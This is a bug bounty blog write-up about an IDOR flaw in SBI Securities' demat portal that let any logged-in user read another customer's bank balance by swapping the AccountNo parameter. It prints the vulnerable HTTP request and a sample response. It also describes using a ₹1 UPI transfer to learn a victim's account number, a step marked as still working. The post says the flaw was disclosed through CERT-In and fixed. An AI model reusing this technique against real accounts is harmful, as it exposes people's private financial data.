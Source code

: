 ```yaml
---
layout: post
title: How I Managed to Check Anyone’s SBI Bank Balance Using Just a Phone Number
date: 2025-10-21
summary: A parameter-tampering IDOR in a demat portal’s Get Balance workflow allowed unauthorized retrieval of account type and live Account balance by swapping the AccountNo value.
categories: VDP
tags: [IDOR]
published: true
---
```



<p align="center">
  <img src="/blog/images/SBI-banner.png">
</p>


Hello Bug Hunters,

Hope your bounties💸 are treating you well. Recently, I opened a bank account with SBI (I usually prefer private banks, but needed this for specific reasons). Like many government banks, they pushed additional add-ons — insurance and a demat account. Not knowing these weren't mandatory, I declined insurance but agreed to open a demat account.

The next day, I received my credentials via email and logged into my demat account. While exploring the platform, I noticed an interesting feature. Although I typically avoid testing assets that don't offer rewards (no money, no bugs), I figured this would only take 5 minutes to test.

In this write-up, I'll disclose a critical security flaw I discovered in SBI Bank's system that allowed me to check anyone's bank account balance using just their phone number and account number. (doesn't need to have a demat account)



### Vulnerability Overview:

The vulnerability was an **Insecure Direct Object Reference (IDOR)** in the "Get Balance" feature of the SBI Securities demat account portal. By manipulating the `AccountNo` parameter, I could retrieve the account balance of any SBI bank account. (doesn't need to have a demat account)

### Attack Prerequisites:

Getting Account details(Account Number): 


#### **Step 1:** Obtaining Account Details:(still works)

The main challenge was obtaining the victim’s account number. From an attacker’s perspective, bank account numbers are not publicly available. However, I discovered that **NSDL Payments Bank** displays the receiver’s full account details — including account number, IFSC code, and name — in transaction statements when you send money via a phone number or UPI ID. Practically, obtaining those details requires initiating a small transaction (for example, ₹1).

<p align="center">
  <img src="/blog/images/nsdl-statement.jpg">
</p>


#### **Step 2:** Exploiting the IDOR Vulnerability to Obtain the Account Balance:

After logging into my demat account, I found a feature called "Get Balance" that fetches the bank account balance linked to the demat account. This feature had a critical flaw.

The request contained a `POST` parameter `&AccountNo=1234567890` that was vulnerable to IDOR. By replacing my account number with the victim's account number, the response revealed:

The victim's Account Balance & Account type `(S=Savings, C=Current)`

<p align="center">
  <img src="/blog/images/sbi-dashboard.png">
</p>

<p align="center">
  <img src="/blog/images/sbi-bug.jpeg">
</p>

### Technical Details:

### Vulnerable Request:

```http
POST /FundHoldandrelease?method=processOIResult HTTP/2
Host: trade.sbisecurities.in
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=YOUR_SESSION_ID
User-Agent: Mozilla/5.0
Referer: https://trade.sbisecurities.in/authenticate

ClientId=400086XXXX&UserId=722XXX1&sClientType=IC&BankId=004&AccountNo=443854XXXXX&TransactionType=3&Flag=BL&Channel=I&Terminal=ITS&theForm=fundholdreleaseform&checkID=40008XXXXX
```

### Response:

```yaml
HTTP/2 200 OK
Content-Type: application/json
Content-Length: 37
Content-Security-Policy: report-uri /report-csp.php
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Access-Control-Allow-Origin: https://trade.sbisecurities.in
Set-Cookie: BIGipServertrade.sbisecurities.in={redacted}; HttpOnly; Secure

{"code":"SUCCESS","data":"S|5407.19"}
```

The response format `"S|5407.19"` indicates:

- **S** = Savings account type
- **5407.19** = Current account balance in INR


### Disclosure and Resolution:

I responsibly disclosed this security flaw to [**CERT-In**](https://www.cert-in.org.in/), and they coordinated with SBI to fix the issue.

***

I hope you found this writeup informative. If you have any questions, feel free to reach out to me on [Linkedin](https://linkedin.com/in/nxtexploit).

May God reward you with goodness and abundant bounties.

**— Aziz Al Aman**

